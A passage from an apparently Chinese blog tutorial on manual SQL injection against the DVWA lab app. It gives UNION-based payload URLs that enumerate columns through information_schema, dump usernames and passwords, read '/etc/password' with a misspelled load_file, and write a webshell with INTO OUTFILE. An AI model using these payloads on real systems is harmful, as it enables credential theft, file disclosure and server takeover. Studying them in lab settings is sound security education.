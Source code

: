 ![](https://github.com/AnchoretY/images/blob/master/blog/手工注入-表名获取.png?raw=true)

#### 6.字段获取

​	字段获取利用系统自带的数据库（mysql中的information_schema）中的columns表中内容进行获取。columns表中常用字段如下表所示：

| 数据表  | 字段         | 含义               |
| ------- | ------------ | ------------------ |
| columns | table_schema | 字段所属的数据库名 |
| columns | table_name   | 字段所属的表名     |
| columns | column_name  | 字段名称           |

​	使用下面语完成对指定表中的字段名称进行探索：

~~~mysql
http://xxx/abc.php?id=x and 1=2 union select 1,column_name from information_schema.columns where table_schema='dvwa' and table_name='users'#
~~~

![](https://github.com/AnchoretY/images/blob/master/blog/手工注入-表中列名获取.png?raw=true)

​	从上面的例子中我们可以看到在users表中存在着User和Password两个字段保存着网站管理员的用户和密码，接下来就可以直接对这两列的内容进行获取了。

#### 7.读取关键字段

~~~mysql
http://xxx/abc.php?id=x and 1=2 union select user,password from dvwa.users #
~~~

![](https://github.com/AnchoretY/images/blob/master/blog/手工注入——用户名密码获取.png?raw=true)



### 4.文件的写入读取

​	除了上面的基本的注入步骤外，找到注入点后还可以直接利用sql注入漏洞进行进一步的文件相关操作，可以直接通过sql注入实现对文件的读取与写入，利用文件的写入功能实现webshell的上传、系统用户名密码获取等功能。

#### 读取文件

​	在具有文件写入权限时常常可以直接使用进行文件读取，读取到文件后可以xxx

~~~mysql
=1' and 1=2 union select laod_file('/etc/password') #
~~~

![](https://github.com/AnchoretY/images/blob/master/blog/sqlmap文件读取.png?raw=true)

#### 文件写入

​	在具有文件写入权限时可以使用文件读取命令写入小马文件，获取shell。

~~~shell
=1 and 1=2 union select ’小马文件内容‘into outfile '文件目录+文件名'
~~~

